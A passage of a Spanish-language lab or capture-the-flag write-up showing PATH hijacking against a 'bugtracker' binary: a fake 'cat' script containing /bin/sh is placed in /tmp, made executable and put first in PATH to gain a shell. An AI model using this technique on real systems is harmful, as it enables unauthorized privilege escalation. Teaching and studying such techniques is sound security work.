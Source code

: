 # bugtracker --help 

###### La herramienta acepta entradas del usuario como nombre del archivo que se leerá usando el comando cat; sin embargo, no especifica la ruta completa al archivo cat y, por lo tanto, podríamos aprovechar esto.

![img](/assets/img/imagenes/2023-10-09_01-18.png)

### Navegaremos al directorio /tmp y crearemos un archivo llamado cat con el siguiente contenido: 
```python
	/bin/sh
```

### ahora otorgamos permisos de ejecución  
```python
	chmod +x cat
```

###### Para explotar esto, podemos añadir el directorio /tmp a la variable de entorno PATH
```python
	export PATH=/tmp:$PATH
```

###### haciendo echo $PATH podemos ver 
```python
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
```
###### podemos ver que el directorio /tmp esta alojado dentro de la variable path

###### hacemos un nuevo llamado al bugtracker 
```python
bugtracker --help
```
###### seleccionamos la opción numero 2
